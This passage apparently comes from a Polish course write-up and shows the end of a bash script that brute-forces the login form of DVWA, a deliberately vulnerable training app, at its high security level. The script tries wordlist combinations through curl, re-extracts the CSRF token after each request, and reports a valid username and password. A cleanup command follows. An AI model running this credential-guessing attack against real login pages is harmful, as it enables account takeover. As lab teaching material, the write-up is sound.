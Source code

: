 ```bash
      result=$(curl -is -x "http://127.0.0.1:8080" -b dvwa.cookie "$2/vulnerabilities/brute/?username=${username}&password=${password}&Login=Login&user_token=${csrf}")
      csrf=$(echo "$result" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
      result=$(echo "$result" | grep -i "password protected area")
      [[ -n "$result" ]] && echo -ne "\r\033[0KValid combo found! It's $username:$password" && exit
    done < "$3"
  done < "$4"
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 || -z $3 ]]; then
  display_usage
  exit 1
fi

# Get CSRF token
get_csrf "$1"

# Find valid combination of username and password
find_valid_combo "$csrf" "$1" "$2" "$3"

echo "No valid combo found!"
```

#### Efekt działania skryptu:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/brute_high.gif "Po uruchomieniu skrypt próbuje każdej kombinacji, dopóki nie znajdzie działającej")


#### Czyszczenie pozostałości po wykonaniu skryptu:
```bash
rm ./dvwa.cookie
```


<br/>
